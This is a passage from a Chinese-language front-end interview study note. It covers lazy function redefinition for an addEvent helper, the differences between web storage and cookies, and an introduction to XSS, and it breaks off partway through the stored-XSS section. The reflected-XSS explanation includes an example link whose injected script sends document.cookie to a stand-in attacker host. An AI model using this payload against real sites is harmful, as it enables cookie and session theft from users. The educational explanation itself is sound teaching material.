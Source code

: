 然而这样做还是有缺陷的，如果我们至始至终没有使用 addEvent 这个函数，addEvent 初始化执行就是在浪费加载时间

可以做如下处理重写，在第一次加载后就重置函数：

```js
let addEvent = function(elem, type, handler) {
    if (window.addEventListener) {
        addEvent = function(elem, type, handler) {
            elem.addEventListener(type, handler, false);
        }
    } else if (window.attachEvent) {
        addEvent = function(elem, type, handler) {
            elem.attachEvent('on' + type, handler);
        }
    }
    addEvent(elem, type, handler);
};
```

## localStorage、sessionStorage、cookie 区别

[Web Storage与Cookie](https://github.com/karmiy/learn/blob/master/H5/5%E3%80%81input%20file%E3%80%81contenteditable%E3%80%81storage%E7%BC%93%E5%AD%98%E3%80%81Web%20Worker%E3%80%81WebSocket.md)

- 传递

- 有效期

- 存储大小

- 作用域

## 什么是 XSS

XSS：Cross Site Script，跨站脚本攻击

利用恶意脚本对客户端网页进行篡改，从而在用户浏览页面时获取用户隐私数据的一种攻击方式

**分类：**

- 反射型

非持久型 XSS，将用户输入的数据“反射”给浏览器，一般是通过诱导用户去点击一个带有恶意脚本的链接

例如 http://a.jsp?name=k 是一个存在反射型 XSS 漏洞的网站，它的 jsp 页面会取name 参数并直接渲染到页面上

假如如果有人在论坛发了一个这样的链接：

```html
http://a.jsp?name=<script>document.write("<img src='http://b?key=" + escape(document.cookie) + "'>")</script>
```

当我们去点击这个链接时，我们在 a 网站的 cookie 就被作为参数发送到了黑客的 b 网站，只要黑客在 b 网站里接收参数 key，就可以拿到你的 cookie，做到 XSS 攻击

- 存储型

持久型 XSS，将用户输入的数据“存储”在服务端（数据库）
